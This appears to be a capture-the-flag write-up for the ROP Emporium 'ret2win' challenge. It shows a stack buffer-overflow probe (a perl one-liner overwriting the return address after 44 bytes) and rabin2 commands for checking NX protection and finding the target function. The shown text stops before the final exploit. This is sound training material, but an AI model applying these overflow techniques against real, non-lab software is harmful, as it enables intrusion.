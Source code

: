 # ret2win

You can find this challange [here](https://ropemporium.com/challenge/ret2win.html).

## Black-Box Test
Let's run the program `ret2win32` and observe the output

```
./ret2win32
```
![](./0.png)

Let's input normal data, such as `ABCD`, and observe the program's behavior.

![](./1.png)

After some trial and error, I found the exact index where we can overwrite the return address.

```
perl -e 'print "A"x44 . "\xfe\xbe\xad\xde"' | ./ret2win32
```
![](./4.png)
```
sudo dmesg -k | tail -2
```
![](./5.png)





## Finding important details

If we examine the stack permissions, we'll find that NX protection is enabled on it, so we won't be able to execute code that is written directly on it.

```
rabin2 -I ret2win32
```
![](./2.png)

Therefore, we will look for functions that can help us.

```
rabin2 -qs ret2win32 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./3.png)

The function `ret2win` looks very suspicious and matches the challenge name, so it's likely the function we're looking for. To be absolutely sure, let's take a closer look at the function itself.

